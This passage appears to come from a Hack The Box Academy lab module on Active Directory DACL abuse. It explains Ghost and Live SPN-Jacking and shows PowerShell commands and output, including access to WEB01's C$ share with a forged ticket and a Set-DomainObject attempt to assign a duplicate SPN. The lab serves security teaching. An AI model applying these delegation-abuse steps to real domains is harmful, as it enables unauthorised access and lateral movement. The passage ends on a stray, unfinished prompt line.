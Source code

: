 We gain access to a ticket as the Administrator on WEB01. The attack chain we perform can be illustrated as follows:

![text](https://academy.hackthebox.com/storage/modules/255/DACL-Attacks-II-Diagrams_1.png)

Finally we can use our need ticket to gain access to WEB01:

```powershell
PS C:\Tools> ls \\web01\c$
  Directory: \\web01\c$

Mode        LastWriteTime    Length Name
----        -------------    ------ ----
d-----    2/25/2022 10:20 AM        PerfLogs
d-r---    10/6/2021 3:50 PM        Program Files
d-----    9/15/2018 4:06 AM        Program Files (x86)
d-----    3/19/2022 5:56 AM        Temp
d-----    3/27/2024 2:55 PM        Tools
d-r---    3/21/2024 6:11 AM        Users
d-----    3/19/2022 6:03 AM        Windows

```

## Live SPN-Jacking Detailed Explanation

Unlike the `Ghost SPN-Jacking` scenario, which involves passive manipulation of SPNs, `Live SPN-Jacking` requires active manipulation of SPNs currently in use within the network environment. This technique is more complex than the former as it involves manipulating live SPNs, which requires a more subtle understanding of Active Directory's delegation and permission intricacies.

![text](https://academy.hackthebox.com/storage/modules/255/DACL-Attacks-II-Diagrams_5.png)

In this context, we explore the scenario with `SRV01`, a server configured for Constrained Delegation with an SPN currently linked to `EXCH03` and `DBSRV003`. Importantly, we have `WriteSPN` rights on `DBSRV003` and `WEB01`.

Typically, in environments with up-to-date security updates in the Active Directory environment, only Domain Admins can assign the duplicate SPN to different accounts due to the potential for conflict. Attempting to assign an SPN already associated with `DBSRV003` to `WEB01` would usually be blocked by the Domain Controller to prevent such disputes.

```powershell
PS C:\Tools> Set-DomainObject -Identity WEB01$ -Set @{serviceprincipalname='dmserver/DBSRV003'} -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC02.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=WEB01$)(name=WEB01$)(displayname=WEB01$))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'dmserver/DBSRV003' for object 'WEB01$'
WARNING: [Set-DomainObject] Error setting/replacing properties for object 'WEB01$' : Exception calling "CommitChanges" with "0" argument(s): "A constraint violation occurred."

```


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname